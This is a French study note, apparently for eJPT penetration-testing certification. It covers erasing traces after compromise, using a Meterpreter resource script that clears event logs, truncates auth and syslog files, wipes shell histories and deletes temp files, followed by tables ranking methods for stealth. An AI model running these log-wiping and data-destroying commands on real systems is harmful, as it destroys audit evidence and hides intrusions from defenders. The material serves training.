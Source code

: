 ### **🎯 Resource script Meterpreter Linux**

#### **Script automatisé linux_cleanup.rc**
```bash
# Fichier linux_cleanup.rc
# Usage : msfconsole -r linux_cleanup.rc

clearev
execute -f "/bin/sh" -a "-c 'for log in /var/log/{auth,syslog,messages}.log; do > $log 2>/dev/null; done'"
execute -f "/bin/sh" -a "-c '> ~/.bash_history; history -c'"
execute -f "/bin/sh" -a "-c 'rm -rf /tmp/* /var/tmp/* 2>/dev/null'"
execute -f "/bin/sh" -a "-c 'find /home -name \".bash_history\" -exec sh -c \"> {}\" \\;'"
```

---

## ⚠️ Points d'attention et bonnes pratiques

### **🛡️ Précautions générales**
- **Toujours sauvegarder** avant suppression (sauf en situation hostile)
- **Tester les scripts** sur un environnement de lab d'abord
- **Vérifier les permissions** requises pour chaque action
- **Attention aux services actifs** qui peuvent recréer les logs

### **🎯 Ordre de priorité eJPT**
1. **Event Logs** - Traces d'authentification et système
2. **Historiques shell** - Commandes exécutées
3. **Fichiers temporaires** - Outils uploadés
4. **Timestamps** - Masquer la création de fichiers
5. **Logs réseau** - Connexions et transferts

### **📊 Efficacité des méthodes**

| Méthode | Windows | Linux | Furtivité | Rapidité |
|---------|---------|-------|-----------|----------|
| **clearev** | 🟢 Excellent | 🟡 Partiel | 🟢 Haute | 🟢 Rapide |
| **Nettoyage manuel** | 🟢 Complet | 🟢 Complet | 🟡 Moyenne | 🔴 Lent |
| **Scripts auto** | 🟢 Très bon | 🟢 Très bon | 🟢 Haute | 🟢 Rapide |
| **Outils tiers** | 🟡 Variable | 🟡 Variable | 🔴 Faible | 🟢 Rapide |

### **🚨 Erreurs à éviter**
- Ne pas supprimer des logs critiques pour la stabilité système
- Oublier de vider l'historique de la session courante
- Utiliser des outils qui laissent leurs propres traces
- Ne pas vérifier les sauvegardes automatiques de logs
- Ignorer les logs d'applications spécifiques installées
